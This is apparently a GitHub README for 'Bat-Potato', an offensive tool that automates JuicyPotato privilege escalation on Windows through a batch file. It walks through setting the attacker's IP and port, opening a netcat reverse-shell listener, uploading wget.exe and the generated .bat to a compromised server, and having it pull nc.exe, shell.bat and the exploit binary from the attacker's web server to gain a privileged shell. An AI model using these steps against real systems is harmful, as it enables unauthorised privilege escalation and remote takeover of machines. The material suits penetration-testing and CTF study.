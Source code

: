 # Bat-Potato

![my4b1hlfajo71](https://user-images.githubusercontent.com/48086822/207264719-7d9952f9-5419-47a6-93cc-4fb076d517f7.png)

# USAGE

The binaries from this repository are the last releases of each one. Keep in mind you can change them anytime.

Open Bat-Potato.py and change de default values

- `JUICY_REMOTE_PATH` -> Working directory
- `CLSID_file` -> List of CLSID (under /wordlist folder)
- `LHOST` -> Your IP
- `LPORT` -> Your Attacker port
- `LWEBSERVER_PORT` -> Web server port that will host manatory files .bat file will upload on server
- `JUICY_POTATO_BIN` -> .exe of the juicypotato binary

```bash
python Bat-Potato.py
```

Server will be listening incomming requests. Keep that connection alive, open new tab and open another listening port for the reverse shell.

For example:

```bash
rlwrap nc -nvlp <port>
```

You must upload the following files on the server:

- wget.exe
- Bat-Potato.bat file generated by python script

On the server, execute

```bash
.\Bat-Potato.bat
```

This will upload `shell.bat`, `nc.exe` and Juicy binary from server and will attempt to Privesc making all the CLSID request automatically.

And wait until `pwn!`


# Why use Bat-Potato

As there are other alternatives to perform Juicy Privesc (https://github.com/TsukiCTF/Lovely-Potato), `Bat-Potato` mainly function is to accomplish the privesc with just a cmd reverse shell. `No powershell` is required for this actions, so with a low integrity cmd shell you can run this `.bat` file.

`NOTE`: As you can see on the .bat generated, hundreds of requests are made and will keep working until finish the list of CLSID.

# You prefer a demo, dont you?

https://user-images.githubusercontent.com/48086822/207419803-827a39ff-9a05-41d8-a393-3733eaa4f1f5.mp4

If video is not displayed, you can also click on this link: https://youtu.be/QL1NiryxGis
